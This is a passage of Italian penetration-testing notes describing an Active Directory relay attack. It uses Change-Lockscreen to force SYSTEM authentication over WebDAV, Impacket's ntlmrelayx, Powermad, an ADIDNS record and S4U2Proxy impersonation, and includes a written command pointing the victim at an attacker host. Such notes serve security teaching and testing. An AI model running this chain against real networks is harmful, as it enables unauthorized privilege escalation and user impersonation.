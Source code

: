![image](https://user-images.githubusercontent.com/110602224/199751408-897df038-6bb2-4c9a-b130-55f7e737d8fc.png)

Mentre in Windows 10 il client WebDAV è installato d default, in Windows Server 2016 e successivi deve essere attivato manualmente.  
![image](https://user-images.githubusercontent.com/110602224/199751927-8f11b927-e074-4591-aab5-dcf7f5c1419b.png)

L'attibuto ACL "Create all child objects" è assegnato di default a tutti gli utenti autenticati nella zona DNS integrata di Active Directory (ADIDNS).  
Questo implica il fatto che ogni utente autenticato può creare record DNS.  
![image](https://user-images.githubusercontent.com/110602224/199752767-4898eca5-7db8-4747-84e0-f29731cdf304.png)

In assenza di accesso GUI, il tool [Change Lockscreen](https://github.com/nccgroup/Change-Lockscreen) consente di effettuare un'autenticazione di rete come SYSTEM avviando un richiesta/procedura di sostituzione dell'immagine della schermata di blocco.  
![image](https://user-images.githubusercontent.com/110602224/199753591-a1c2c5be-6d5b-41ed-9b0a-cd5b8240d326.png)

Nel caso in cui sia attivo Windows Spotlight (funzionalità che scarica e alterna in automatico le immagini della chermata di blocco) l'autenticazione come SYSTEM non avviene. Per questo motivo il tool di cui sopra disattiva Windows Spotlight e configura l'immagine specificata negli argomenti.  
Il tool va oltre, crea una copia dell'immagine originale e la ripristina una volta terminato l'attacco.  

Per rendere disponibile l'immagine si può usare lo script ntlmrelayx.py di Impacket con argomento _--serve-image \[PERCORSO IMMAGINE\]_  
![image](https://user-images.githubusercontent.com/110602224/199754828-f1f19de1-7c40-41f7-b1f7-db4943423784.png)

Proseguendo con l'attacco, è necessario avere un accoount con un Service Principal Name e il tool [Powermad](https://github.com/Kevin-Robertson/Powermad) può essere usato per sfruttare il comportamento di default dell'attributo di Active Directory "msDs-MachineAccountQuota" per aggiungere un account computer.  
![image](https://user-images.githubusercontent.com/110602224/199757246-c0f78f49-b266-4db6-85cb-fe9ba18e8624.png)

Il passaggio successivo consiste nel creare un record DNS che punti al computer dell'hacker.  
![image](https://user-images.githubusercontent.com/110602224/199757617-45b5b977-bdb7-44d1-bef8-9556dde3dfb9.png)

A questo punto, con il record DNS che punta all'indirizzo IP dell'hacker e con lo script ntlmrelayx.py in esecuzione nel computer dell'attaccante, si invoca il comando per moificare l'immagine della schermata di blocco: **change-lockscreen -webdav \\attacker@80\**  

![image](https://user-images.githubusercontent.com/110602224/199758246-c88154b6-0e00-4fe1-9e84-aa57acc6ca5b.png)
Dalla figura sopra si ha conferma che l'account macchina creato in precedenza può impersonare utenti sul computer vittima via S4U2Prozy.  
![image](https://user-images.githubusercontent.com/110602224/199758729-1d0019dd-3ecb-4408-b509-3db89da30abc.png)

Il ticket si può salvare in formato .kirbi o usato per eseguire comandi sul computer remoto impersonando un altro utente.  


8. **Kerberos Attacks Using Proxies**  
La presenza di un collegamento di rete diretto alla rete interna facilità l'eecuzione e favorisce il successo degli attacchi contro Kerberos.  
In alcuni casi però capitano situazioni particolari come eseguire attacchi contro Kerberos via host compromessi che si trovano all'interno di una DMZ agendo come proxy (socks proxy).  

